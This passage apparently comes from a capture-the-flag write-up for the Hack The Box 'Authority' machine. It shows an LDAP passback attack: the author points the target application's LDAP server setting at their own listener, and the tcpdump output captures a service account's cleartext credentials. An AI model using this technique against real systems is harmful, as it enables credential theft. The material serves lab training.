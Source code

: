```
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

We can now modify the ldap server of the application by putting our ldap server and see what happens, CAUTION!: put in ldap and not ldap(s), yes I literally get blocked on it for an evening because of this...

![UpdateLdap](/assets/authorityHtb/UpdateLdap.png)

You can click on the "test LDAP profile" button to receive your LDAP connection: 
```
#TCPdump result 
21:10:38.102271 IP authority.htb.50619 > 10.10.16.3.ldap: Flags [SEW], seq 2719860159, win 64240, options [mss 1338,nop,wscale 8,nop,nop,sackOK], length 0
        0x0000:  4502 0034 3ea7 4000 7f06 8d26 0a0a 0bde  E..4>.@....&....
        0x0010:  0a0a 1003 c5bb 0185 a21d c5bf 0000 0000  ................
        0x0020:  80c2 faf0 14c7 0000 0204 053a 0103 0308  ...........:....
        0x0030:  0101 0402                                ....
21:10:38.102314 IP 10.10.16.3.ldap > authority.htb.50619: Flags [S.], seq 2484611885, ack 2719860160, win 64240, options [mss 1460,nop,nop,sackOK,nop,wscale 7], length 0
        0x0000:  4500 0034 0000 4000 4006 0ad0 0a0a 1003  E..4..@.@.......
        0x0010:  0a0a 0bde 0185 c5bb 9418 2b2d a21d c5c0  ..........+-....
        0x0020:  8012 faf0 55b7 0000 0204 05b4 0101 0402  ....U...........
        0x0030:  0103 0307                                ....
21:10:38.151013 IP authority.htb.50619 > 10.10.16.3.ldap: Flags [.], ack 2484611886, win 1024, length 0
        0x0000:  4500 0028 3ea9 4000 7f06 8d32 0a0a 0bde  E..(>.@....2....
        0x0010:  0a0a 1003 c5bb 0185 a21d c5c0 9418 2b2e  ..............+.
        0x0020:  5010 0400 8d7a 0000                      P....z..
21:10:38.219276 IP authority.htb.50619 > 10.10.16.3.ldap: Flags [P.], seq 2719860160:2719860251, ack 2484611886, win 1024, length 91
        0x0000:  4500 0083 3eaa 4000 7f06 8cd6 0a0a 0bde  E...>.@.........
        0x0010:  0a0a 1003 c5bb 0185 a21d c5c0 9418 2b2e  ..............+.
        0x0020:  5018 0400 c5e2 0000 3059 0201 0160 5402  P.......0Y...`T.
        0x0030:  0103 043b 434e 3d73 7663 5f6c 6461 702c  ...;CN=svc_ldap,
        0x0040:  4f55 3d53 6572 7669 6365 2041 6363 6f75  OU=Service.Accou
        0x0050:  6e74 732c 4f55 3d43 4f52 502c 4443 3d61  nts,OU=CORP,DC=a
        0x0060:  7574 686f 7269 7479 2c44 433d 6874 6280  uthority,DC=htb.
        0x0070:  126c 4461 505f 316e 5f74 6833 5f63 6c65  .lDaP_1n_th3_cle
        0x0080:  3472 21                                  4r!
```
If you are careful can see a user and a password in the LDAP request.
